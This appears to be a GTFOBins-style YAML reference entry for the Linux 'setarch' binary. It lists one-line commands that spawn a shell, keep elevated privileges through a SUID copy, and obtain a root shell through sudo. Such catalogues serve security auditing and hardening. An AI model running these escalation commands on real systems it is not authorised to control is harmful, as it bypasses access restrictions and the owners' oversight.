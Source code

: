 ```yaml
---
name: setarch
functions:
  shell:
    - code: setarch $(arch) /bin/sh
  suid:
    - code: ./setarch $(arch) /bin/sh -p
  sudo:
    - code: sudo setarch $(arch) /bin/sh
---
```

